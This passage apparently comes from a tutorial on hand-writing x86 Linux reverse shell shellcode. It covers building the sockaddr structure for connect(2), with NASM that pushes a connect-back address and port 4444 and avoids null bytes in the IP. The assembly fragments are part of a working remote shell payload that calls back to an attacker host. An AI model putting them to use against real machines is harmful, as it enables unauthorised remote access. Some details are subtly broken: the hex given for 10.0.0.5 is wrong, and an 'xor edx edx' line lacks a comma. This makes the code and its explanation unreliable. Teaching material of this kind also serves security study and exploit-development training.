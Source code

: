 To illustrate this:

```
172 .16 . 1  .5

 AC .10 .01 .05

0xAC100105
```

#### Building the `sockaddr` Structure

```nasm
    push 0x050110ac         ; 4 byte IP address
    push word 0x5c11        ; 2 byte Port number
    push word bx            ; 2 byte protocol domain (bx should always be 0x0002 at this point)
```

Building the `sockaddr` struct is straightforward when dealing with a destination IP address that contains no zeros. We simply take the hexadecimal form of our desired destination IP address, reverse it so that when it gets pushed it goes onto the stack the IP address comes out in network byte order, and finally push the port and protocol domain. 

##### Dealing with null bytes

If the IP address you need to connect back to contains zeroes (i.e. `10.0.0.5`, which is `0xA0000005` in hex) we need to handle it similarly to the port numbers with nulls in my bind shell article. I recommend (and what I implement in my wrapper) is to split the IP address into two separate PUSH WORD instructions constructing the IP address. 

For example, to get `10.0.0.5` onto the stack we'd do the following:

```nasm
    add dh, 0x05
    push word dx
    xor edx edx
    add dl, 0xa
    push word dx
    xor edx edx
```

This will result in this dword being on the stack: `0x0500000a`, when we examine a pointer to it byte by byte it is read as `0x0a, 0x00, 0x00, 0x05`, our correctly formatted destination IP address. This is similar to how we got a port with a null byte into our struct in the bind shell payload. These are the types of instructions that are generated by my wrapper script to handle these nulls. 

##### Finishing up `sockaddr`
```nasm
    inc ebx         
    mov ecx, esp    
```

With these last instructions we have incremented EBX to the correct id to call `connect(2)` with `socketcall(2)`. We also have moved into ECX a pointer to the `sockaddr` struct we created.

#### Finishing up `connect(2)`
